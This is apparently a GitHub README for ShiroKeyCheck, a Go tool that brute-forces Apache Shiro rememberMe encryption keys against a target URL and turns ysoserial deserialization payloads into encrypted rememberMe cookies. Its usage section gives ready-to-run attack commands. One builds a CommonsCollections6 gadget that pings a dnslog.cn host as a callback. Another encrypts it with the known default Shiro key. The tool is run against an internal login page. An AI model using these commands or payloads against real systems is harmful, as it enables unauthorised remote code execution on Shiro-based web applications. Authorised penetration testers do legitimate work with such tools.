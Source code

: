 # ShirokeyCheck

[中文介绍](README.zh_CN.md)

Golang development, multi-platform support.

In order to adapt to different targets and different network conditions, a variety of http request parameters have been added, such as: specified request timeout, each request interval, http proxy.

There are 129 keys built in, and two modes of detection, AES-CBC and AES-GCM, are supported by default.

Support to encrypt the payload generated by ysoserial, generate rememberMe field, and use it.

## Usage

```
Usage of ./ShiroKeyCheck:
  -content string
    	POST Method Content
  -interval int
    	Each request interval time(s)
  -key string
    	Specify the key and use CBC and GCM modes for detection
  -m string
    	Request Method (default "GET")
  -mode string
    	Specify CBC or GCM encryption mode (only valid for -ser parameter)
  -proxy string
    	Set up http proxy e.g. http://127.0.0.1:8080
  -ser string
    	Encrypt the bytecode file to generate the RememberMe field
  -timeout int
    	Request timeout time(s) (default 60)
  -u string
    	Target url（Needed）
  -ua string
    	User-Agent (default "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36")
```

## keyCheck

`ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp` ![img](image/1.png)

### Set proxy and request interval

`./ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp -interval 10 -proxy http://127.0.0.1:7890`

![img](image/2.png)

### Encrypt the payload generated by ysoserial

`java -jar ysoserial.jar CommonsCollections6 "ping 18pa70.dnslog.cn" > aa.txt`

`./ShiroKeyCheck -key kPH+bIxk5D2deZiIxcaaaA== -mode cbc -ser aa.txt`

![img](image/3.png)

## Compilation

```
go build -ldflags="-s -w" -o ShiroKeyCheck main.go
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck.exe main.go
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck main.go
```



